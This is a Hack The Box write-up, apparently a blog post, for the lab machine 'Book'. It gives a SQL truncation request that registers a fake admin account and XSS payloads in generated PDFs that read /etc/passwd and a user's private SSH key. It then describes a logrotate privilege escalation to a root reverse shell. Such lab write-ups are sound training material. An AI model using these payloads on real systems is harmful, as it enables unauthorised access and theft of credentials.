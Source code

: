 ```yaml
---
layout: single
title: 'Book Write-Up: HackTheBox'
excerpt: "Book was a medium machine on Hack The Box created by MrR3boot. Initial recon revealed a web application login that is vulnerable to SQL truncation attack, allowing login as `admin`. Once `admin`, we can inject XSS payloads to read local files through dynamically generated PDFs, which is used to extract a user's private SSH key. Finally, logged in as the user `reader` via SSH, a vulnerable version of `logrotate` running as root is discovered, which is exploited to escalate to the root user."
classes: wide
categories: [hackthebox]
date: 2020-07-11
tags: [hackthebox, xxs, sqli, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\book\book-banner.png
  teaser_home_page: true
toc: false
toc_label: "Table of Contents"
toc_icon: "database"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\book\book-banner.png)
## TL;DR
Book was a *medium* machine on Hack The Box created by MrR3boot. Initial recon revealed a web application whose user registration is vulnerable to a SQL truncation attack, leading to login as `admin`. Once `admin`, we can inject XSS payloads to read local files through dynamically generated PDFs, which is used to extract a user's private SSH key. Finally, logged in as the user `reader` via SSH, a vulnerable version of `logrotate` running as root is discovered, which is exploited to escalate to root.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-book 10.10.10.176`

Nmap revealed two open ports. OpenSSH on port 22 and Apache on port 80.
![](\assets\images\htb\book\book-nmap.png)

## Web Application Enumeration

Rustbuster doesn't reveal anything immediately interesting. Lots of redirections!
![](\assets\images\htb\book\book-rustbuster.png)

Taking a look at the web app through the browser we are greeted with a login prompt and the option to **Sign Up**.
![](\assets\images\htb\book\book-login.png)

I created a test account and logged in.
![](\assets\images\htb\book\book-signup.png)

Once signed in we see various functionality but nothing that immediately stuck out as vulnerable.
![](\assets\images\htb\book\book-test-signin.png)

Viewing my profile information, I noticed an interesting behavior. The "t" was missing off of my username. 
![](\assets\images\htb\book\book-test-profile.png)

I inspected the source and found JS with some validation occuring.
```javascript
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
```

Exploring further, the authentication mechanism is vulnerable to a SQL truncation attack. This means I can create a user with all the attributes of the `admin` account and add a bit of padding to exceed the character limit and a random character. This user will be accepted but when the user is inserted into the database, it is truncated to the column limit. In this case, `name` and `email` have a character limit of 10 and 20 respectively. Additionally, I had to change the role parameter (see below). After performing this attack, this allows me to login as the admin user.
```
POST /index.php HTTP/1.1
Host: 10.10.10.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.176/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Connection: close
Cookie: PHPSESSID=cchd42rqq7qeqb0aoueen81nl9
Upgrade-Insecure-Requests: 1

name=admin+++++a&email=admin@book.htb++++++a&password=password&role=administrator
```
REF: [MySQL and SQL Column Truncation Vulnerabilities](https://www.suspekt.org/mysql-and-sql-column-truncation-vulnerabilities/){:target="_blank"} 

Successfully logged in as `admin`, we get an Admin Panel with various functionality. Immediately interesting was the "Collections" area that revealed a couple of PDF files.
![](\assets\images\htb\book\book-admin-panel.png)

## XSS via PDF
I discovered that the application has server side processing of PDFs, which we control the input to via *Book Submission* area. Exploitation of this mechanism is documented here:
- [Local File Read via XSS in Dynamically Generated PDF ](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html){:target="_blank"} 
- [PayloadsAllTheThings/Upload Insecure Files/Extension PDF JS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20PDF%20JS){:target="_blank"}

In the spirit of payloading all the things, I payloaded the Title, Author, and the uploaded PDF file.
![](\assets\images\htb\book\book-library-payload.png)

The payload with result to retrieve `/etc/passwd`:
```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
![](\assets\images\htb\book\book-etc-passwd.png)

After learning of the `reader` user. The payload with result to retrieve `/home/reader/.ssh/id_rsa`:
```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
![](\assets\images\htb\book\book-reader-idrsa.png)

## Breaking Through
I then extracted the private key text from the pdf, fiddled with formatting it properly, and was able to  get a SSH session as the `reader` user. We are in business! I was able to obtain the user flag and start enumerating the machine.
![](\assets\images\htb\book\book-reader-login.png)

I used pSpy and noticed an interesting item. Logrotate was running as root.
![](\assets\images\htb\book\book-pspy.png)

## Exploitation
I learned that the version of `logrotate` is 3.11.0 which is vulnerable to a privilege escalation.
```bash
reader@book:~/backups$ logrotate --version
logrotate 3.11.0
```
With the [logrotten 3.15.1 - Privilege Escalation](https://www.exploit-db.com/exploits/47466){:target="_blank"} all versions of `logrotate` through 3.15.1 are vulnerable to this exploit. 

Checking the preconditions that must exist:
1. Logrotate has to be executed as root. (**Verified**)
2. The logpath needs to be in control of the attacker. (**Verified**)
  + This is in Reader's home directory. `/home/reader/backups/access.log`
3. Any option that creates files is set in the logrotate configuration.
  + This precondition I can not verify because the configuration is stored in the root's home directory, so we might have a bit of guessing.

I transferred the exploit to the Book machine and compiled it locally. 
`gcc -o log logrotten.c`

I set up my bash script to be a simple bash reverse shell.
![](\assets\images\htb\book\book-bash-shell.png)

The exploit gave the option to change the target directory, but I kept it as `/etc/bash_completion.d/`.  I then executed the exploit with our access.log file and executedI `echo "test" > /home/reader/backups/access.log` just to be sure a change to the log occured. Once the exploit was complete, I performed some some random terminal autocompletion.
![](\assets\images\htb\book\book-access-log.png)

## We Are Root!
We got a root shell on the port I was listening on!
![](\assets\images\htb\book\book-set-listener.png)

The logrotate configuration and root flag.
![](\assets\images\htb\book\book-post-logcfg.png)

An interesting look behind the curtain.
![](\assets\images\htb\book\book-post-reset.png)